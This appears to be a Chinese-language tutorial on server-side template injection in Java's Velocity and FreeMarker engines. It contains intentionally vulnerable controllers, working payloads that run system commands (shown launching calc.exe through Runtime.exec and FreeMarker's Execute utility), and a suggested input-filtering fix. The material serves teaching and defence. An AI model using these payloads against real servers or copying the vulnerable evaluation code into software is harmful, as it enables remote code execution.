

# SSTI

## Velocity



```
package com.example.controller;
import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.Velocity;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

import java.io.StringWriter;

@RestController
public class SstiController {

    @RequestMapping("/ssti/velocity")
    public String  Velocity(@RequestParam(name = "content") String content) {
        Velocity.init();
        VelocityContext velocityContext = new VelocityContext();

        velocityContext.put("username", "test");

        StringWriter stringWriter = new StringWriter();
        Velocity.evaluate(velocityContext, stringWriter, "test", content);
        return stringWriter.toString();
    }
}
```



启动计算器



```sh
/ssti/velocity?content=%23%73%65%74%20%28%24%65%78%70%20%3d%20%22%65%78%70%22%29%3b%24%65%78%70%2e%67%65%74%43%6c%61%73%73%28%29%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%22%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%63%61%6c%63%2e%65%78%65%22%29

=#set ($exp = "exp");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("cmd.exe /c calc.exe")
```



**修复代码**

为了防止 SSTI 漏洞，我们应该对用户输入进行严格的输入验证和过滤，避免在模板引擎中直接使用用户输入。在使用 Velocity 模板引擎时，还可以配置 Velocity 引擎，禁止使用 Velocity 中危险的函数和类，从而增加应用程序的安全性。

```java
public String  Velocity(@RequestParam(name = "content") String content) {
        VelocityEngine engine = new VelocityEngine();
        engine.setProperty(RuntimeConstants.RESOURCE_LOADER, "class");
        engine.setProperty("class.resource.loader.class", ClasspathResourceLoader.class.getName());
        engine.setProperty(RuntimeConstants.VM_PERM_ALLOW_INLINE_REPLACE_GLOBAL, true);
        engine.setProperty(RuntimeConstants.VM_LIBRARY, "");
        engine.init();

        // 过滤用户输入，只允许输入字母、数字、下划线和空格
        content = content.replaceAll("[^\\w\\s]", "");

        VelocityContext context = new VelocityContext();

        context.put("username", "test");

        StringWriter stringWriter = new StringWriter();
        engine.evaluate(context, stringWriter, "test", content);
        return stringWriter.toString();
    }
```


## FreeMarker

FreeMarker的攻击方式主要是利用模板本身的语法和功能。攻击者可以在FreeMarker模板文件中使用内置函数或变量来执行恶意代码，或者使用一些特殊的语法结构来绕过过滤或转义机制。

因此，攻击者通常会利用FreeMarker模板注入漏洞来上传或修改模板文件，以在后续的渲染中执行恶意代码。例如，攻击者可以上传一个包含恶意代码的FreeMarker模板文件，然后通过Web应用程序中的漏洞或访问控制不当等方式来触发渲染操作，从而导致恶意代码的执行。



```
package com.example.controller;

import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;


@RestController
public class SstiController {

    @RequestMapping("/ssti/freemarker")
    public String freemarker() throws IOException, TemplateException {
        Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
        configuration.setClassForTemplateLoading(this.getClass(), "/templates");
        Template template = configuration.getTemplate("test.ftl");

        Map<String, Object> rootMap = new HashMap<String, Object>();
        rootMap.put("username", "passwd");
        StringWriter stringWriter = new StringWriter();
        template.process(rootMap, stringWriter);
        return stringWriter.toString();
    }
}
```





```
<!DOCTYPE html>
<html>
<head>
    <title>FreeMarker Injection Demo</title>
</head>
<body>

<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("cmd /c calc.exe") }

</body>
</html>
```



> 这个示例中的FreeMarker模板文件存在注入漏洞。具体来说，它使用FreeMarker的内置方法`freemarker.template.utility.Execute`来执行系统命令，并将结果输出到页面中。攻击者可以利用这个漏洞，在`ex()`方法中注入恶意的命令来执行任意代码。

